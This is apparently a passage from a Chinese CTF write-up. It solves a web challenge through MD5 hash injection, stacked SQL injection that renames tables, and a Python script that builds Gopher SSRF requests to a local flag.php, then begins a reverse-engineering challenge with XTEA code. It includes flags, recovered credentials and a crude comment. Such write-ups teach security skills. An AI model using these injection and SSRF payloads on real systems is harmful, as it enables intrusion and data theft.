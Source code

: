 ![image-20210403135248632](https://gitee.com/leonsec/images/raw/master/image-20210403135248632.png)

flag{d77d7d9b-941a-4087-949f-c72a466f9c5b}

### “慢慢做”管理系统

第一步MD5哈希注入，密码`kydba`

第二步Gopher打admin.php，存在堆叠注入，用强网杯随便注的rename改表名能得到admin_inner的账户密码

但是登陆名需要猜解，是`admin`

```python
# python3
# wh1sper
from urllib.parse import quote

#username = "1';rename table real_admin_here_do_you_find to thetmp;rename table fake_admin to real_admin_here_do_you_find;rename table thetmp to fake_admin;"
#username = "1"
username = "admin"#admin_inner/5fb4e07de914cfc82afb44vbaf402203d
#我草泥马的脑瘫题
password = "5fb4e07de914cfc82afb44vbaf402203"#fake_admin/fake_passwor
post_data = "username={}&password={}".format(quote(username), quote(password))
cl = len(post_data)

stream = """POST /flag.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: {}
Cookie: PHPSESSID=fuj95a6eo7sa84923b6eg5bie2; path=/

{}
""".format(cl, post_data).replace("\n", "\r\n") # POST参数先编码一次

host = "gopher://127.0.0.1:80/"
print(host+'_'+quote(stream)) # Gopher数据流再编码一次
#print(stream)
```

构造Gopher数据，先打admin.php，得到Cookie之后带着Cookie打flag.php就能拿到flag。



## Reverse

### GoEncrypt

输入符合正则格式的flag:flag{11111111-1111-1111-1111-111111111111}, 除了”-“的其他hex编码 ，之后分成2组 xtea,脚本

抄百度就行

```c
#include<stdio.h>
#include<stdlib.h>
#define uint32_t unsigned int
void encipher(unsigned int num_rounds, uint32_t v[2], uint32_t const key[4]) {
    unsigned int i;
    uint32_t v0 = v[0], v1 = v[1], sum = 0, delta = 0x12345678;
    for (i = 0; i < num_rounds; i++) {
        v0 += (((v1 << 4) ^ (v1 >> 5)) + v1) ^ (sum + key[sum & 3]);
        sum += delta;
        v1 += (((v0 << 4) ^ (v0 >> 5)) + v0) ^ (sum + key[(sum >> 11) & 3]);
    }
    v[0] = v0; v[1] = v1;
}

```